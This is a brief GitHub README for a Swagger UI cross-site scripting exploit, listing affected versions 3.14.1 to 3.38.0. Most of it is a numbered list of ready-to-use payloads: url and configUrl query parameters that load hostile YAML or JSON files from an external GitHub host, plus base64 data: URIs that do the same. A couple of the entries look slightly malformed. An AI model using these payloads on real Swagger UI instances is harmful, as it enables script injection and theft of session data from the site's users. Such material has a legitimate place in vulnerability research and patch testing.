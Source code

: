 # swagger-ui-xss
Swagger UI version affected: `>=3.14.1` &lt; `3.38.0`

## Payload

1. `?url=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/xss-domain.yaml`
2. `?url=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/xss-fetch.yaml`
3. `??configUrl=https://raw.githubusercontent.com/aydilfahri/swagger-ui-xss/main/config.json`
4. `?configUrl=data:text/html;base64,ewoidXJsIjoiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2F5ZGlsZmFocmkvc3dhZ2dlci11aS14c3MvbWFpbi94c3MtZmV0Y2gueWFtbCIKfQ==`
5. `/classicapi/doc/?configUrl=data:text/html;base64,base64,ewoidXJsIjoiaHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2F5ZGlsZmFocmkvc3dhZ2dlci11aS14c3MvbWFpbi94c3MtZmV0Y2gueWFtbCIKfQ==`



Thanks to: https://github.com/VictorNS69/swagger-ui-xss/
